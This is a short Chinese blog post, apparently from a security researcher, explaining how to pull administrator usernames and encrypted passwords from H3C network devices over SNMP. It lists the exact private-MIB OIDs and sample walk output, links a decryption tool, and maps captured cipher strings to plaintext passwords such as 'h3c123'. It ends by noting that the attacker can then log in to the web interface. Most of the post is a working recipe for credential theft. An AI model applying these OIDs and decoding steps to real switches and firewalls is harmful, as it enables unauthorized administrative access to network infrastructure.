 ```yaml
---
layout: post
title: "h3c snmp获取管理员登录密码"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

### 参考资料 ###

[h3c获取管理员密码](http://www.wooyun.org/bugs/wooyun-2010-021877)
[华为交换机获取管理员密码](http://www.wooyun.org/bugs/wooyun-2010-021964)

测试型号：h3c SecPath F5000-A5

### 漏洞详情 ###
管理员用户名和密码可以通过snmp读取，从而获得管理权限。h3c的私有mib有两种，一种是2011（huawei h3c),一种是25506（hh3c)。经过测试发现，有些设备只支持一种。如果一种获取不到数据，可以两种都尝试下。相关的oid为：

	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.1 h3cUserName OCTET-STRING admin 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.2 h3cUserName OCTET-STRING h3c 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.1.3 h3cUserName OCTET-STRING pppoe 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.1 h3cUserPassword OCTET-STRING .]@USE=B,53Q=^Q`MAF4<1!! 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.2 h3cUserPassword OCTET-STRING test 
	1.3.6.1.4.1.2011.10.2.12.1.1.1.2.3 h3cUserPassword OCTET-STRING pppoe 

1.3.6.1.4.1.2011.10.2.12.1.1.1.1.1为用户名，如果有多个用户则最后一位依次为2,3...1.3.6.1.4.1.2011.10.2.12.1.1.1.2.1为第一个用户的密码，以此类推。后面还有一些oid可以获取用户用户是否有管理权限等。需要详细研究的话可以walk一下看看。

25506 相关的oid为：

	1.3.6.1.4.1.25506.2.12.1.1.1.1.1 h3c 
	1.3.6.1.4.1.25506.2.12.1.1.1.2.1 P.KG0>5&YV3;5#)%#Z[VS1!! 
	1.3.6.1.4.1.25506.2.12.1.1.1.3.1 7 
	1.3.6.1.4.1.25506.2.12.1.1.1.4.1 3 
	1.3.6.1.4.1.25506.2.12.1.1.1.5.1 0 
	1.3.6.1.4.1.25506.2.12.1.1.1.6.1 1 

同样，第一个为用户名，第二个为密码。

获取到的密码是一个加密的字符串。[解密的工具可以在这里下载](https://github.com/grutz/h3c-pt-tools/blob/master/hh3c_cipher.py)

	.]@USE=B,53Q=^Q`MAF4<1!!: admin
	-AO7S27&QTCQ=^Q`MAF4<1!!: h3c123
	P.KG0>5&YV3;5#)%#Z[VS1!!: Zjyd_h3c_10
	如上，可以直接得到明文的密码。然后就可以在web登录了。

### 实例测试 ###

